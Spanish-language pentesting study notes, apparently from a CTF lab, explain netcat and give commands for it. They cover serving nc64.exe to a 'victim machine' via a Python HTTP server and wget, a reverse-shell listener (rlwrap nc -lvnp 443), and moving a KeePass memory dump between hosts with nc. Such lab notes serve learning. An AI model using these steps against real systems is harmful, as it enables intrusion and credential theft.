 #nc 
Netcat (o `nc`) es una herramienta de red que permite enviar y recibir datos a través de conexiones TCP o UDP.  
Se usa para crear [[Reverse shell]], transferir archivos, o escanear puertos.  
Es muy versátil y está presente en muchas distribuciones Linux y Windows.

-------
# Descargar archivo para mandar una [[Reverse shell]]
[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) 
Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima
Esto normalmente lo usamos para ponernos en escucha con  [[rlwrap nc -lvnp 443]] para la reverseshell

----------
# Como pasarnos archivos entre maquinas

#### Desde la maquina la cual tiene los archivos, nos ponemos en escucha en este caso por el puerto 5000

```shell
nc -nlvp Puerto < NombreDelArchivo
Ejemplo: nc -nlvp 5000 < KeePassDumpFull.dmp
```

![[Keeper17.png]]
*Parametros del comando nc*
`-nlvp` Es un rejunte de todos los parametros n l v p
	`n` Es para que no aplique resolucion DNS
	`l` Es listen, que es para escuchar conexiones entrantes
	`v` Es de verbose para que reporte mas resultados en consola
	`p` Es para poner el puerto
	`<` Es el input a entregar, que en este caso es un archivo



#### Desde la maquina que quiere recibir los archivos
```shell
nc Ip Puerto > NombreDelArchivo
Ejemplo: nc 10.10.11.227 5000 > KeePassDumpFull.dmp
```
Aclaracion: Despues de unos segundos hay que cortar la conexion con CTRL + C, por que si no queda activa

![[Keeper16.png]]
*Parametros del comando nc*
	`>` Es el archivo al cual queremos mandar el output


